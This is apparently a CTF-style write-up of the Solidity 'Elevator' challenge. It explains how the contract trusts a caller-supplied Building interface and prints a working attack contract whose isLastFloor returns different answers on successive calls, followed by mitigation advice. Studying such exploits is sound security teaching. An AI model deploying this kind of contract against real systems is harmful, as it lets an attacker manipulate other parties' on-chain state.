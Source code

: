 # Elevator Contract Vulnerability and Mitigation in Solidity

The main problem with the Elevator contract lies in its reliance on an external contract, `Building`, to determine whether the current floor is the last floor using the `isLastFloor` function. Specifically, the vulnerability arises from the fact that the Elevator contract trusts the `Building` interface implementation provided by `msg.sender`.

Here's the problematic code:

```solidity
Building building = Building(msg.sender);

if (! building.isLastFloor(_floor)) {
  floor = _floor;
  top = building.isLastFloor(floor);
}

An attacker can make a harmful contract using the Building interface and tamper with the isLastFloor function to take advantage of the Elevator contract. This occurs because the Elevator contract doesn't set restrictions on how isLastFloor is implemented.

contract ElevatorHack {
    Elevator private immutable target;
    uint private countCalls;

    constructor(address _target) {
        target = Elevator(_target);
    }

    function attack() external {
        target.goTo(1);
        require(target.top(), "is not top floor");
    }

    function isLastFloor(uint) external returns (bool) {
        countCalls++;
        return countCalls > 1;
    }
}

The attacker's contract can alter the isLastFloor function's return value or use other methods to trick the Elevator contract, enabling the attacker to reach the top floor.

To address this problem, the Elevator contract should not depend on external contracts for crucial functions like isLastFloor. Instead, it should have built-in logic to check if a floor is the last one or use strict validation and access control to allow only trusted contracts to interact with it.
```
